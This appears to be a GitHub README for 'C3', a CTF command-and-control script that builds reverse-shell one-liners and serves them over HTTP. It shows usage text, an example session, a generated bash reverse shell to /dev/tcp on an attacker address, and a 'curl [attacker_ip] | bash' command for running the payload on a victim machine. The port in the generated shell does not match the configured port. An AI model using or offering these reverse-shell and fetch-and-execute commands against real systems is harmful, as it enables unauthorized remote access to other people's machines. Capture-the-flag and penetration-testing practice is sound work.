 # C3 - The CTF Command and Control
```
_________ ________
\_   ___ \_____  \
/    \  \/  _(__  <    ______
\     \____/       \  /_____/
 \______  /______  /
        \/       \/
___________.__             _______________________________
\__    ___/|  |__   ____   \_   ___ \__    ___/\_   _____/
  |    |   |  |  \_/ __ \  /    \  \/ |    |    |    __)
  |    |   |   Y  \  ___/  \     \____|    |    |     \
  |____|   |___|  /\___  >  \______  /|____|    \___  /
                \/     \/          \/               \/
                                                .___
  ____  ____   _____   _____ _____    ____    __| _/
_/ ___\/  _ \ /     \ /     \__  \  /    \  / __ |
\  \__(  <_> )  Y Y  \  Y Y  \/ __ \|   |  \/ /_/ |
 \___  >____/|__|_|  /__|_|  (____  /___|  /\____ |
     \/            \/      \/     \/     \/      \/
  ____                         __                .__
 /  _ \     ____  ____   _____/  |________  ____ |  |
 >  _ </\ _/ ___\/  _ \ /    \   __\_  __ \/  _ \|  |
/  <_\ \/ \  \__(  <_> )   |  \  |  |  | \(  <_> )  |__
\_____\ \  \___  >____/|___|  /__|  |__|   \____/|____/

   by Blaudoom
```

This is a VERY simple script that can be used to create your basic reverse-shell commands.

Shells from: [PentestMonkey](https://github.com/pentestmonkey)


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -s HTTPPORT  Port to start HTTP server in, default 80
  ```
## Usage
```
Available commands:

reverse [method] - Creates a reverse shell and either serves it over http or prints it (Method either serve or print)
proxy [url/preset] - Downloads and serves a single webpage over http. Param 1 is an url or a preset name. 
exec [command] - Serves the given command as text on http-server
set [option] [value] - Sets the value for an option, overwriting the one given as a commandline param.
shells - Prints available shell-types
presets - Prints presets
options - Prints options
stop - Kill the http-server
exit - Exit the application
```


## Examples:
### Reverse on http-server
  ```
$ sudo python3 c3.py -s 80 -l bash -a 169.254.138.91

Options:

shell:bash
localAddr:169.254.138.91
localPort:4444
interface:None
httpPort:80


C3>reverse serve
Opening shellfile: bash
C3>Starting webserver on port 80

C3>127.0.0.1 - - [12/Aug/2021 14:02:07] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [12/Aug/2021 14:02:07] "GET /favicon.ico HTTP/1.1" 200 -
```

produces:

```
bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
```

and serves it on http-server at all interfaces on port 80 at / http://localhost
  
on victim machine:
```
curl [attacker_ip] | bash
```

should run the reverse shell generated, if bash is present and http is not blocked.

